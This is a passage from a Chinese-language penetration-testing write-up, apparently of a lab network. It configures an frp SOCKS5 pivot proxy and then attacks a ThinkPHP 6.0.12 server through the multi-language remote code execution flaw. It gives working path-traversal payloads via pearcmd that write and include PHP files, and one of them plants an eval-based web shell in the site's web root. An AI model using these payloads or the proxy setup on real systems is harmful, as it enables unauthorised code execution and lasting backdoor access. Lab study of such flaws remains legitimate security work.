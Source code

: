 ```bash
[common]
server_addr = 192.168.28.101
server_post = 7000

[socks5_1]
plugin = socks5
remote_post = 10801
```

#### 运行frpc.exe

```bash
frpc.exe -c frpc.ini >frpc.txt
```

## 5.Thinkphp

> 192.168.26.101

### http://192.168.26.101

> ThinkPHP V6.0.12LTS

![image-20241124074122082](https://image.201068.xyz/assets/writeup/image-20241124074122082.png)

### burp设置socks5代理

![image-20241124083148587](https://image.201068.xyz/assets/writeup/image-20241124083148587.png)

### ThinkPHP多语言远程代码执行

https://www.hackjie.com/9749.html

https://blog.csdn.net/kali_Ma/article/details/128488771

#### 影响范围

```bash
v6.0.1 < Thinkphp < v6.0.13
Thinkphp v5.0.x
Thinkphp v5.1.x
```

#### poc

```bash
../../../../../../../../usr/local/php/pearcmd
../../../../../../../../usr/local/lib/php/pearcmd
../../../../../../../../usr/share/lib/php/pearcmd
../../../../../../../../usr/share/php/pearcmd
```



```bash
# 写文件
/index.php?lang=../../../../../../../../../../usr/share/php/pearcmd&+config-create+/&<?=phpinfo()?>+/tmp/hello.php

# 包含文件
/index.php?lang=../../../../../../../../../../tmp/hello

# 直接写一句话木马
/index.php?lang=../../../../../../../../../../usr/share/php/pearcmd&+config-create+/<?=@eval($_REQUEST['xxx']);?>+/www/wwwroot/127.0.0.1/thinkphp-v6.0.12/public/xxx.php
```
